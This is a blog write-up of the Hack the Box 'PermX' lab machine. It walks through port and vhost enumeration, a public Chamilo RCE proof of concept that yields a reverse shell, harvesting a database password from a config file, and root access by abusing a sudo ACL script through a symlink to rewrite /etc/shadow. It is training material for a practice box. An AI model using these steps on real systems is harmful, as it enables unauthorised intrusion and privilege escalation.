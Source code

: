 ```yaml
---
draft: false
title: "Hack the Box #3 - PermX w/o Metasploit"
date: 2024-07-30
author: William
category:
  - Tech
tags:
  - Hacking
cover:
  image: hack_the_box_3_permx.png
  alt: hack_the_box_3_permx.png
---
```

I've been messing with retired boxes on Hack the box and thought i would finally try my hand on one of the active ones!

So as per lets start with an nmap scan.
```bash
# Nmap 7.94SVN scan initiated Sat Jul 27 09:05:17 2024 as: nmap -sV -p- -o nmap.scan 10.10.11.23
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Jul 27 09:06:05 2024 -- 1 IP address (1 host up) scanned in 48.48 seconds

```

In doing so we find ports 22, 80 open. Both versions seem secure so lets have a look at the website.

> sudo vim /etc/hosts

Adding [http://permx.htb/](http://permx.htb/) Looks like some elearning site. Inspecting the page source shows there is an underlying page but none of the urls load anything of interest.

```bash
/.htaccess           [33m (Status: 403)[0m [Size: 274]
/.htpasswd           [33m (Status: 403)[0m [Size: 274]
/.hta                [33m (Status: 403)[0m [Size: 274]
/css                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/css/>][0m
/img                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/img/>][0m
/index.html          [32m (Status: 200)[0m [Size: 36182]
/js                  [36m (Status: 301)[0m [Size: 303][34m [--> <http://permx.htb/js/>][0m
/lib                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/lib/>][0m
/server-status       [33m (Status: 403)[0m [Size: 274]
```

With some further subdirectory enumeration with gobuster We have some denied and an open directory but nothing of serious interest. Lets see if we have any subdomains of interest???

Weirdly is wasn’t getting much success with with the generic **ffuf** method of:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.permx.htb -mc 200
```

This doesn't seem right. It isn't even detecting the www root that I am connected to… After a little bit of research I found another way to make the query.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u <http://10.10.11.23> -H "Host: FUZZ.permx.htb" -mc 200
```

What is the difference you might ask? The former is sending out a request to DNS servers for what other subdomains it could connect to. Where the latter is sending requests directly to the IP Address im trying to hit…

And after running the command against the VHOST we get

**lms.permx.htb**

WHY IS IT ALWAYS DNS!!!!!!!

Lets add this bad boy to our hosts file and lets see what we got… Looks like we have a login page with the administrator mentioned at the bottom.

![LoginPage](https://i.imgur.com/7BQRrzZ.png#center)

+1 to email **admin@permx.htb** love you Davis Miller

In digging through the source to determine what version of Chamilo we are dealing with I could only determine **Chamilo 1** thinking it wouldn't get me to far without a specific version but google is a bountiful place with a simple **Chamilo 1 exploit** search we find a PoC put together by m3m0o [m3m0o/chamilo-lms-unauthenticated-rce](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) Thanks mate love you.

Downloading this and reviewing the exploit it can either check for the vulnerability, drop a webshell or a reverse shell using the exploit. Well I'm feeling vrevshelly today :D

![ReverseShell](https://i.imgur.com/GM5Qp5D.png#center)

Looks like we are **www-data** but we can still read the etc/passwd looks to be a single human user of mtz that's where our user flag will be… Lets start enumerating this box and see how we can get it.

In poking around we get this find an interesting file...
```bash
└─$ find / -type f -name "*config*" 2>/dev/null 
...
/var/www/chamilo/app/config/configuration.php
...

└─$ cat "/var/www/chamilo/app/config/configuration.php" | grep "db_user\\|db_pass"
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Great we have been able to acquire the database username and password.

Trying to login to the Chamilo portal the user doesn't work. Good. Lets try it with the user **mtz**.

```bash
└─$ ssh mtz@10.10.11.23
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
...
mtz@permx:~$ cat user.txt
==============USER_FLAG_STRING==============
```

I’m in and we got the flag… Now to escalate to root!

Lets start by enumerating what processes can be run as superuser.
```bash
mtz@permx:~$ find / -perm -u=s -type f 2>/dev/null
...
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

There are some interesting ones at the bottom of this lookup. Digging into polkit, we are running version 0.105-33 and with a cursery search on exploit_db we find this bad boy [exploit-db](https://www.exploit-db.com/exploits/50011)

After running this a couple times however we have no success. The script is unable to create a user. Lets see what this user can run...

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run **[acl.sh](http://acl.sh)** as a sudo user without a password. Looking at the script is assigns permissions to a given target file but does restrict the user to only be able to run it on their home directory. We can’t edit this file but we can abuse the security check by creating a symbolic link to root.
```bash
mtz@permx:~$ ln -s / root # Create temp symbolic link
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow # GIB SHADOW FILE PERMS
mtz@permx:~$ vim /etc/shadow 
```

Here we can pull the hashed root password and crack it… or we can just overwrite it with mtz password then we can `su root` input mtz password and BAM!!!

```bash
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz# cat /root/root.txt
==============ROOT_FLAG_STRING==============
```

We got the root flag baby! And this [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/613) from hack the box. My smooth brain feels satisfied. I'm going to go touch some grass now :D

